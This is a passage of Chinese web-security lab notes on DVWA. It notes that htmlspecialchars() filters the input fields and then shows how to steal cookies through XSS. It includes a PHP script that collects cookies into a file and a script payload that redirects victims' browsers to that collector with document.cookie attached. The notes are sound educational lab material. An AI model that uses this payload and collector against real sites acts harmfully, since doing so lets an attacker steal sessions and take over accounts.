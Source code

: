 将 name 和 message 处输入的数据都经过 `htmlspecialchars()` 函数的处理，完全被过滤。

# XSS 盗取 cookie

攻击原理：通过 XSS 漏洞，利用一些 js 函数来获取用户信息。

![](/pics/WEB集训/四/11.png)

先在网站根目录下放入如下 php 文件：

```php
<?php
	$cookie = $_GET['cookie'];
	file_put_contents('cookie.txt', $cookie)
?>
```

PHP 文件中的`'`很容易和中文的单引号`‘`搞混。

以下为 XSS 的 payload：

```js
<script>document.location="http://127.0.0.1/dvwa/cookie.php?cookie="+document.cookie;</script>
```

输入 payload 后，在网站根目录下 `cookie.txt` 中存入了 cookie 的值。

